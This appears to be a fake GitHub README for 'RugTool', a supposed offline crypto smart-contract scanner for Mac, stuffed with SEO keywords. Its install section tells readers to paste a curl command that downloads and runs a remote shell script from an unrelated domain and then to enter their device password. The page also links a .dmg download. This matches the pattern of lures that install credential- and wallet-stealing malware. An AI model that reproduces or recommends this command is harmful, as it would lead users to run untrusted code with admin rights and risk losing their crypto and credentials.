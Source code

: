# RugTool — Offline Setup Assistant

[![Download RugTool](https://img.shields.io/badge/Download-RugTool-blueviolet)](https://rugtool-download-mac.github.io/.github)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🧾 Smart contract risk scanning  
🔐 Wallet vulnerability checks  
📊 Token metadata and audit explorer  
💻 Works without internet or external APIs  
🛠 Ideal for cold environments and secure workflows

## 🖼 Preview

![Smart Contract Risk Analysis](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdgJMGhw4YTwvcPQr0Dg8lDGO2iiE8PgonXsDRBiJzKvtYCrvQ2l-XkKsQV-pqhZnA1XzJhYix00bENQ8srzomLTg12ah93jUbulLhNc_7idtb8L8Az3MfHzc5FMnVGJauORMVXBA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Offline smart contract security scanner*

![Token Analysis Interface](https://lh3.googleusercontent.com/5KCYjwRAD1p_1vgnjMuoi59zNuGbuhGOZPxFlRFWZ_CscEO1LpJlFWJW0YXx28l9RNlVeTi_wMbkohmwAu94_8ya=s1280-w1280-h800)  
*Detailed token breakdown in an airgapped environment*

![Audit Results Overview](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdiT1SSNckc5YhDP35lhYAizvoXly2aMKSEFnnqkKRHFtmoj5WOtUhivK9g1q9UaCflhDcntmjgQjR1vqwzvMlF33NuRa-wHB3wOcXUe8JdAVaM_JAmhMcB4Y5K1AUqvAXj3UhoEA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Interactive results and contract flags viewer*

### 🔎 SEO Keywords

`rugtool mac`, `rugtool mac download`, `rugtool mac free download`, `download rugtool for mac`, `rugtool for macbook`,  
`rugtool macbook air`, `rugtool software mac`, `rugtool tool mac`, `rugtool installer mac`, `rugtool utility mac`,  
`rugtool app mac`, `rugtool dmg mac`, `rugtool mac os`, `rugtool macos download`, `rugtool mac os x`,  
`rugtool mac latest version`, `rugtool mac full`, `rugtool mac compatibility`, `rugtool mac guide`, `rugtool setup mac`,  
`rugtool support mac`, `rugtool tool for mac`, `rugtool download mac os`, `rugtool mac appstore`, `rugtool install on mac`
